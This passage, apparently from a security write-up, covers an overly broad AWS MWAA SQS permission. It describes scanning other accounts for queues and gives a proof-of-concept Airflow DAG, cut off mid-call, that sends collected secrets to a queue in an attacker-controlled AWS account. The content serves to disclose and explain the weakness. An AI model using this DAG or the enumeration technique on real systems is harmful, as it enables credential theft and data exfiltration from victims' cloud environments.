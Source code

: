 The `sqs:GetQueueUrl` and `sqs:GetQueueAttributes` permissions can be turned into a scanner. An attacker can write a DAG that iterates through a list of known or suspected AWS account IDs. For each ID, the script would attempt to resolve the URL for queues like airflow-celery-prod, airflow-celery-dev, etc. A successful response confirms the existence of another MWAA environment or a similarly named service. This allows an attacker to quietly map out potential targets across different organizations without sending a single network packet to them, building a valuable list for future attacks.

## Proof of Concept (POC) DAG for Data Exfiltration

!!! warning "Educational Content Only"
    The following DAG is a proof-of-concept demonstrating the exfiltration attack. It simulates fetching a "secret" and sending it to an SQS queue controlled by an attacker. **This code is for educational and defensive purposes only.**

```python
import json
from datetime import datetime

import boto3
from airflow.models.dag import DAG
from airflow.operators.python import PythonOperator

# --- Attacker-Controlled Parameters ---
# The attacker would replace these with their own values.
ATTACKER_AWS_ACCOUNT_ID = "123456789012"
ATTACKER_QUEUE_NAME = "airflow-celery-exfil-data"
ATTACKER_REGION = "us-east-1"
# -------------------------------------

def exfiltrate_data_via_sqs():
    """
    This function simulates the core of the attack.
    1. It gathers sensitive data accessible by the execution role.
    2. It sends this data to an SQS queue in an external AWS account.
    """
    print("Starting data exfiltration task...")

    # Step 1: Simulate collecting sensitive data.
    # In a real attack, this could be reading from an S3 bucket,
    # a secret from Secrets Manager, or database credentials.
    sensitive_data = {
        "source_account": "victim-account",
        "secret_key": "AWS_DUMMY_SECRET_KEY_abc123",
        "db_password": "ProdPassword123!",
        "notes": "This data was exfiltrated via MWAA SQS policy."
    }
    print("Collected sensitive data.")

    # Step 2: Prepare for exfiltration.
    # The queue URL is constructed to point to the attacker's queue.
    attacker_queue_url = f"https://sqs.{ATTACKER_REGION}.amazonaws.com/{ATTACKER_AWS_ACCOUNT_ID}/{ATTACKER_QUEUE_NAME}"
    try:
        # The boto3 client will automatically use the permissions
        # of the MWAA execution role.
        sqs_client = boto3.client("sqs", region_name=ATTACKER_REGION)

        print(f"Sending data to attacker's SQS queue: {attacker_queue_url}")

        # Step 3: Send the data.
        # The IAM policy with "arn:aws:sqs:*:*:airflow-celery-*" allows this call.
        response = sqs_client.send_message(
            QueueUrl=attacker_queue_url,
            MessageBody=json.dumps(sensitive_data),
```